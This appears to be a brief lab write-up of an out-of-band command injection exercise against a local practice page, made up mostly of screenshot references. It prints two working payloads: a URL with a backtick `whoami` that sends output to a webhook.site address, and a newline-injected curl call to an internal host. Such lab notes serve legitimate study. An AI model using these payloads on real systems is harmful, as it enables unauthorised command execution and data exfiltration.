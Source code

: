 Lab: http://localhost/labs/c0x02.php

Nonsense input:
![[Pasted image 20240326135651.png]]

Google:
![[Pasted image 20240326135858.png]]

Use webhook.site to exfiltrate data:
```
https://webhook.site/2f5964be-b054-461c-84b0-92bff42fc7c3?`whoami`
```

OOB command injection:
![[Pasted image 20240326140023.png]]

On the webhook.site we catch the output of the command:
![[Pasted image 20240326140049.png]]


**Alternative command:**
Use `\n` to insert a newline (=new command) in the execution:
```
https://google.de \n curl http://10.0.0.11:8000
```

![[Pasted image 20240326140527.png]]
